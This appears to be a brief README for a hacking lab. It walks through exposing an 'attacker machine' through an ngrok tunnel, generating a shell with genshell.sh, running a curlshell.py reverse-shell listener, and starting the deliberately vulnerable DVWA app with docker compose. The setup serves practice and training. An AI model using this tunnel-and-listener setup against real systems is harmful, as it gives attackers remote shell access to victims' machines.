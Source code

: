 Install NGROK:
--------------
This is required to create a public facing tunnel for the attacker machine

brew install ngrok

Start ngrok tunnel and setup redirect:
-------------------------------------

ngrok http https://localhost:4242
Make note of the FQDN

Start a listener:
----------------
cd scripts/curlsh
./genshell.sh 'FQDN noted above'
python3 curlshell.py --certificate curlshell.crt --private-key curlshell.key --listen-port 4242

Running DVWA:
------------
Clone and change to root folder
docker compose up
OR
docker compose up -d ( for BG)



